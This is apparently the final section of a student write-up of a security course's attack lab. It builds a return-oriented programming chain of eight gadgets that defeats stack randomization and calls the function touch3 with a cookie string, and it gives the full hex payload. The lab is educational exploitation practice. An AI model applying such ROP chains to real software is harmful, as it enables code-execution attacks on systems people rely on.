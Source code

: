 The last injection is the most difficult. It's the ROP attack version to call touch3. Because the stack is randomized, so we cannot use the absolute address to locate the string, instead we have to get the adress of %rsp and add the offset. Luckily their is a gadget in the farm.
```s
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
Seem like we can put the address of %rsp and the offset in %rdi and %rsi to locate the string.

Let's look at the solution.

```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
06 1a 40 00 00 00 00 00 /* mov %rsp,%rax;ret %rsp */
c5 19 40 00 00 00 00 00 /* mov %rax,%rdi;ret */
ab 19 40 00 00 00 00 00 /* pop %rax;ret */
48 00 00 00 00 00 00 00 /* offset */
dd 19 40 00 00 00 00 00 /* movl %eax,%edx;ret */
70 1a 40 00 00 00 00 00 /* movl %edx,%ecx;ret */
13 1a 40 00 00 00 00 00 /* movl %ecx,%esi;ret */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax;ret */
c5 19 40 00 00 00 00 00 /* mov %rax,%rdi;ret */
fa 18 40 00 00 00 00 00 /* touch3 */
35 39 62 39 39 37 66 61 /* "59b997fa" */
```

Here we use 8 gadgets, same as the official guide.

## Conclusion
This is quite an insteresting lab which introduce some attack skills of information security. As usual, I got a long time to start, but when I understood how to do it, I found it easy to finish. Hope you can enjoy it too. Good luck :)